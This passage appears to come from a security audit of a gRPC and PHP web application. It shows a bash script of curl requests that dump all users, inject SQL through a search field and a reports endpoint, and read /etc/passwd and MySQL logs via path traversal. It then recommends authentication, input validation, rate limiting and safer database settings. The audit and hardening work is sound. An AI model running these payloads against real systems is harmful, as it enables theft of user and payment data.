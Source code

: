### Data Exfiltration Attack

```bash
# Complete data extraction script
#!/bin/bash

# Extract all users
curl -X POST grpc://target:50051/users.v1.UsersService/ListUsers \
  -d '{"pagination":{"page_size":999999}}' > users.json

# Extract all products via SQL injection
curl -X POST grpc://target:50052/products.v1.ProductsService/SearchProducts \
  -d '{"query":"\" UNION SELECT * FROM products--"}' > products.json

# Extract all orders via PHP injection
curl -X POST http://target:8080/api/reports \
  -d 'sql_query=SELECT * FROM orders UNION SELECT * FROM payments' > orders.json

# Extract system files via path traversal
curl http://target:8080/download/../../../../etc/passwd > passwd.txt
curl http://target:8080/download/../../../../var/log/mysql/mysql.log > mysql.log
```

## Recommended Security Hardening

### Immediate Actions Required

1. **Implement Authentication**
   ```typescript
   @UseGuards(JwtAuthGuard)
   @GrpcMethod('UsersService', 'CreateUser')
   ```

2. **Add Input Validation**
   ```typescript
   app.useGlobalPipes(new ValidationPipe({
     whitelist: true,
     forbidNonWhitelisted: true,
     transform: true,
   }));
   ```

3. **Enable Rate Limiting**
   ```typescript
   @UseGuards(ThrottlerGuard)
   @Throttle(5, 60) // 5 requests per minute
   ```

4. **Secure Database Configuration**
   ```typescript
   synchronize: false, // NEVER true in production
   logging: false,     // Disable SQL logging
   ```
